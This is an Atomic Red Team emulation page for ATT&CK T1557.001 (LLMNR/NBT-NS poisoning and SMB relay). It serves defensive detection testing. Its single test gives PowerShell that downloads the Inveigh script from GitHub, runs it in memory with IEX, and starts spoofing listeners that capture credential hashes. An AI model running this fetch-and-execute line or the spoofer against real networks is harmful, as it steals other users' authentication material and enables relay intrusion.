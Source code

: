 # T1557.001 - LLMNR/NBT-NS Poisoning and SMB Relay
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1557/001)
<blockquote>By responding to LLMNR/NBT-NS network traffic, adversaries may spoof an authoritative source for name resolution to force communication with an adversary controlled system. This activity may be used to collect or relay authentication materials. 

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name. (Citation: Wikipedia LLMNR) (Citation: TechNet NetBIOS)

Adversaries can spoof an authoritative source for name resolution on a victim network by responding to LLMNR (UDP 5355)/NBT-NS (UDP 137) traffic as if they know the identity of the requested host, effectively poisoning the service so that the victims will communicate with the adversary controlled system. If the requested host belongs to a resource that requires identification/authentication, the username and NTLMv2 hash will then be sent to the adversary controlled system. The adversary can then collect the hash information sent over the wire through tools that monitor the ports for traffic or through [Network Sniffing](https://attack.mitre.org/techniques/T1040) and crack the hashes offline through [Brute Force](https://attack.mitre.org/techniques/T1110) to obtain the plaintext passwords. In some cases where an adversary has access to a system that is in the authentication path between systems or when automated scans that use credentials attempt to authenticate to an adversary controlled system, the NTLMv2 hashes can be intercepted and relayed to access and execute code against a target system. The relay step can happen in conjunction with poisoning but may also be independent of it. (Citation: byt3bl33d3r NTLM Relaying)(Citation: Secure Ideas SMB Relay)

Several tools exist that can be used to poison name services within local networks such as NBNSpoof, Metasploit, and [Responder](https://attack.mitre.org/software/S0174). (Citation: GitHub NBNSpoof) (Citation: Rapid7 LLMNR Spoofer) (Citation: GitHub Responder)</blockquote>

## Atomic Tests

- [Atomic Test #1 - LLMNR Poisoning with Inveigh (PowerShell)](#atomic-test-1---llmnr-poisoning-with-inveigh-powershell)


<br/>

## Atomic Test #1 - LLMNR Poisoning with Inveigh (PowerShell)
Inveigh conducts spoofing attacks and hash/credential captures through both packet sniffing and protocol specific listeners/sockets. This Atomic will run continuously until you cancel it or it times out.

**Supported Platforms:** Windows


**auto_generated_guid:** deecd55f-afe0-4a62-9fba-4d1ba2deb321






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/82be2377ade47a4e325217b4144878a59595e750/Inveigh.ps1" -UseBasicParsing)
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -MDNS Y -HTTPS Y -PROXY Y
```






<br/>
